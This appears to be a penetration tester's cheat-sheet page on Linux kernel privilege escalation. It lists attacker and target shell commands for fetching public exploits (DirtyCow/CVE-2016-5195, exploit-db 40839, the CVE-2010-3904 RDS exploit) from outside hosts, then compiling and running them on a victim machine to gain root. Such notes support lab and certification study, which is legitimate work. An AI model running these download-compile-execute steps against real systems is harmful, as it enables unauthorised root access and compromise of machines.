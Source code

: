 #### Manual
```
https://github.com/lucyoa/kernel-exploits
```

```bash - target
uname -a
```

Google "Linux debian 2.6.32-5-amd64 exploit"

```bash - kali
 wget https://www.exploit-db.com/raw/40839
```

#### DirtyCow
```bash - target
gcc -pthread c0w.c -o cow
```

```bash - target
./cow
```

```bash - target
passwd
```

#### DirtyCow2
https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c

#### Automated
![[3._Automated Tools#Linux Exploit Suggester]]

#### CVE 2016-5195
```bash - kali
wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
```

(un)comment correct payload first (x86 or x64)!

```bash - kali
mousepad cowroot.c
```

#### CVE 2010-3904 RDS
Download this file:
http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c

Transfer to target, compile and run.
```bash - target
gcc linux-rds-exploit.c -o privesc
```

```bash - target
./privesc
```